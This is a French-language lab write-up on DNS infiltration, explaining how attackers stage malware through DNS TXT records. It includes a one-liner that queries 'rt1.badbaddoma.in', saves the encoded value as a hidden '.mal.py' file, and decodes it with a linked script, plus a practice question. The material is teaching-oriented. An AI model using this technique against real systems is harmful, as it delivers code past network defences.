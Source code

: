 # Infiltration DNS 

### Infiltration DNS : Theorie

- L'infiltration DNS est une autre méthode utilisée par les attaquants pour exploiter les diverses vulnérabilités du système de noms de domaine d'une organisation. 

- Contrairement aux attaques d'exfiltration sur le DNS, l'infiltration définit le processus par lequel le code malveillant est exécuté pour manipuler les serveurs DNS soit à l'aide de systèmes automatisés où les attaquants se connectent à distance à l'infrastructure réseau, soit manuellement.

- L'infiltration DNS est principalement utilisée pour la delivery de fichiers/programmes ou de staging de logiciels malveillants. 

- Avec des systèmes de détection des menaces basés sur le comportement, les signatures ou la réputation, il est possible que cette méthode d'attaque soit détectée.

- Cependant, si cette méthode de transport des données passe inaperçue, elle peut conduire à des activités malveillantes telles que l'exécution de code dans l'environnement de l'organisation. 

- Historiquement, cela a causé des ravages et des perturbations pour diverses entreprises bien connues.

- En résumé, le protocole DNS pourrait être utilisé comme un protocole secret qui pourrait faciliter les efforts de mise en scène et d'exécution des logiciels malveillants pour communiquer avec le ou les serveurs C2 (commande et contrôle) d'un attaquant. 

- Dans la tâche suivante, nous explorerons comment cela pourrait être réalisé.

---

### Infiltration DNS : Exemple

- Dans ce scénario, l'attaquant va infiltrer un morceau de code « malveillant » sur l'ordinateur de la victime. 
- Il existe de nombreuses techniques différentes que les attaquants dans le monde réel utilisent pour y parvenir. 
- Pour simplifier les choses, j'utiliserai un enregistrement TXT configuré sur un serveur DNS AWS public. La valeur contenue dans cet enregistrement est un code 'malveillant' encodé.

- Étant donné que les enregistrements TXT sont limités à 255 caractères, les pirates informatiques auront probablement plusieurs enregistrements TXT configurés pour leur serveur DNS. Cela dépend finalement de la longueur de leur code. 
- Maintenant que tout est configuré et prêt, tout ce que le hacker doit faire est de demander ces enregistrements TXT, de capturer la ou les valeurs, de les décoder et, les voilà maintenant infiltré leur propre code dans un système compromis via les enregistrements DNS TXT.

(Cliquez pour agrandir au besoin)

<img src="https://cdn.discordapp.com/attachments/798799811482353734/807297515518427197/infil.png"/>

Vous pouvez voir mon enregistrement TXT ci-dessous.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807138166867623956/1.PNG"/>


Fichiers utilisés pour cette démo

1. `nslookup`

Cela recherchera d'abord l'enregistrement TXT pour rt1.badbaddoma.in, puis obtiendra la valeur entre guillemets, et enfin, il enregistrera la valeur dans un fichier nommé '.mal.py'.

`nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py
`

2. [packetSimple.py`](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetySimple.py)

Lorsque le code vous demande un 'Nom de fichier', entrez le nom de fichier '.mal.py'. C'est le fichier dans lequel nous avons enregistré la valeur encodée.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807140371967508500/2.PNG"/>


`python3 ~/packetySimple.py. 
`
`Filename: .mal.py  
`
`[+] Reading from file...  
`
`[+] Base58 decoded.  
`
`[+] Base64 decoded.  
`
`[+] Done, .mal.py is decoded.  
`

---

### Infiltration DNS : Pratique

- Lisez le fichier TASK qui se trouve dans le dossier `~/challenges/infiltration/`.

- Vous pouvez utiliser la même commande que celle utilisée dans la partie Infiltration DNS - Exemple.
- Gardez à l'esprit que vous devrez ajuster la section « grep » et utiliser les caractères appropriés pour faire correspondre. Par exemple, si la valeur de texte de l'enregistrement TXT commence par « G6... », vous devrez utiliser « grep G6 ».

**Répondre aux questions ci-dessous**

Suivez les instructions du fichier TASK pour répondre à cette question.

Quelle est la sortie du fichier python exécuté
```
reponse
```
